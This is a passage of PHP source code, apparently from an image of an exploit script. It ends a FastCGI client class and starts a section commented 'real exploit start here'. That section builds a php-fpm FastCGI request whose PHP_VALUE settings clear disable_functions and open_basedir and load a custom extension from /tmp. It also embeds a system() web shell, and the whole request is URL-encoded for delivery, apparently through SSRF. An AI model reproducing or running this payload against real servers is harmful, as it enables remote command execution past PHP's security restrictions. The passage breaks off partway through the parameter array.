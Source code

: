 ```plain
        }
        if ($paramsRequest) {
            $request .= $this->buildPacket(self::PARAMS, $paramsRequest);
        }
        $request .= $this->buildPacket(self::PARAMS, '');
        if ($stdin) {
            $request .= $this->buildPacket(self::STDIN, $stdin);
        }
        $request .= $this->buildPacket(self::STDIN, '');
        echo('data='.urlencode($request));
//        fwrite($this->_sock, $request);
//        do {
//            $resp = $this->readPacket();
//            if ($resp['type'] == self::STDOUT || $resp['type'] == self::STDERR) {
//                $response .= $resp['content'];
//            }
//        } while ($resp && $resp['type'] != self::END_REQUEST);
//        var_dump($resp);
//        if (!is_array($resp)) {
//            throw new Exception('Bad request');
//        }
//        switch (ord($resp['content']{4})) {
//            case self::CANT_MPX_CONN:
//                throw new Exception('This app can\'t multiplex [CANT_MPX_CONN]');
//                break;
//            case self::OVERLOADED:
//                throw new Exception('New request rejected; too busy [OVERLOADED]');
//                break;
//            case self::UNKNOWN_ROLE:
//                throw new Exception('Role value not known [UNKNOWN_ROLE]');
//                break;
//            case self::REQUEST_COMPLETE:
//                return $response;
//        }
    }
}
?>
<?php
// real exploit start here
//if (!isset($_REQUEST['cmd'])) {
//    die("Check your input\n");
//}
//if (!isset($_REQUEST['filepath'])) {
//    $filepath = __FILE__;
//}else{
//    $filepath = $_REQUEST['filepath'];
//}

$filepath = "/var/www/html/add_api.php";    // 目标主机已知的PHP文件的路径
$req = '/'.basename($filepath);
$uri = $req .'?'.'command=whoami';    // 啥也不是, 不用管
$client = new FCGIClient("unix:///var/run/php-fpm.sock", -1);
$code = "<?php system(\$_REQUEST['command']); phpinfo(); ?>";    // 啥也不是, 不用管
$php_value = "unserialize_callback_func = system\nextension_dir = /tmp\nextension = hpdoger.so\ndisable_classes = \ndisable_functions = \nallow_url_include = On\nopen_basedir = /\nauto_prepend_file = ";
$params = array(
    'GATEWAY_INTERFACE' => 'FastCGI/1.0',
    'REQUEST_METHOD'    => 'POST',
    'SCRIPT_FILENAME'   => $filepath,
    'SCRIPT_NAME'       => $req,
    'QUERY_STRING'      => 'command=whoami',
    'REQUEST_URI'       => $uri,
```